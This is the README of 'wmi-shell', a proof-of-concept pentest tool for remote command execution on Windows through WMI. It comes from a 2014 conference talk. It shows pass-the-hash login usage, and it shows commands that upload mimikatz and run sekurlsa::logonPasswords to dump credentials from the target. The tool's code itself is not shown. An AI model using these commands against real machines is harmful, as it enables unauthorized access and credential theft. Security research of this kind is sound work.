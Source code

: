 # wmi-shell

Proof-of-concept of an interactive shell on a target Windows machine using only the WMI system (no network shares are needed to extract command output).

Remote WMI access must be configured on the target. No SMB services are needed. All command output is obtained exclusively using the WMI access, through storage in the WMI repository.


## Usage

Launch the script on Kali Linux with either the cleartext password or the password hash of an administrator account on the target Windows machine:   
```
python -O wmi-shell.py <USERNAME> <PASSWORD> <TARGET_IP>
python -O wmi-shell.py <USERNAME> <LM:NTLM> <TARGET_IP>	
```
Usual Windows commands can be launched from the interactive shell the script provides:

```
>>> dir c:
```
A post-exploitation tool like mimikatz can also be uploaded and run to extract passwords from the target:

```
>>> upload ../mimikatz.exe
>>> %TEMP%\mimi.exe privilege::debug sekurlsa::logonPasswords exit
```

## Requirements

Kali Linux 32-bit and 64-bit with Pass the Hash toolkit (installed by default). 

To make the script run from other systems, you must download and install the PTH toolkit and some old libraries needed by the wmis and wmic tools.

Example for a 64-bit Debian:
```bash
git clone https://github.com/byt3bl33d3r/pth-toolkit
sudo apt install multiarch-support
wget http://ftp.de.debian.org/debian/pool/main/libt/libtasn1-3/libtasn1-3_2.13-2+deb7u2_amd64.deb
wget http://ftp.de.debian.org/debian/pool/main/g/gnutls26/libgnutls26_2.12.20-8+deb7u5_amd64.deb
wget http://ftp.de.debian.org/debian/pool/main/libg/libgcrypt11/libgcrypt11_1.5.0-5+deb7u4_amd64.deb
dpkg -i libgcrypt11_1.5.0-5+deb7u4_amd64.deb
dpkg -i libtasn1-3_2.13-2+deb7u2_amd64.deb
dpkg -i libgnutls26_2.12.20-8+deb7u5_amd64.deb
```

## Project details

This project was initially presented at the 2014 Hackito Ergo Sum conference by Andrei Dumitrescu. The presentation slides can be found online:
- <a href="http://2014.hackitoergosum.org/slides/day1_WMI_Shell_Andrei_Dumitrescu.pdf" target="_blank">http://2014.hackitoergosum.org/slides/day1_WMI_Shell_Andrei_Dumitrescu.pdf</a>
- <a href="https://speakerdeck.com/hackitoergosum/hes2014-wmi-shell-a-new-way-to-get-shells-on-remote-windows-machines-using-only-the-wmi-service-by-andrei-dumitrescu" target="_blank">https://speakerdeck.com/hackitoergosum/hes2014-wmi-shell-a-new-way-to-get-shells-on-remote-windows-machines-using-only-the-wmi-service-by-andrei-dumitrescu</a>

### Project description:

The Windows Management Instrumentation (WMI) technology is included by default in all versions of Windows since Windows Millenium. The WMI technology is used by Windows administrators to get a variety of information concerning the target machine (like user account information, the list of running processes etc.) and to create/kill processes on the machine.

From a pentester’s point of view, WMI is just another method of executing commands remotely on target machines in a post-exploitation scenario. This can be achieved by creating processes on the remote machine using a WMI client. However, at the present time the output of the executed command cannot be easily recovered ; a potential solution would be write the output to a file and get these files using the SMB server on port 445, but this requires having remote file access on the target machine, which might not always be the case.

We have developed a tool that allows us to execute commands and get their output using only the WMI infrastructure, without any help from other services, like the SMB server. With the wmi-shell tool we can execute commands, upload files and recover Windows passwords remotely using just the WMI service that listens on port 135. During this talk we will quickly review current authenticated remote code execution methods available for Windows, we will explain the aspects of the WMI architecture that make the wmi-shell possible and we will present the tool itself (demo & links to the source code).

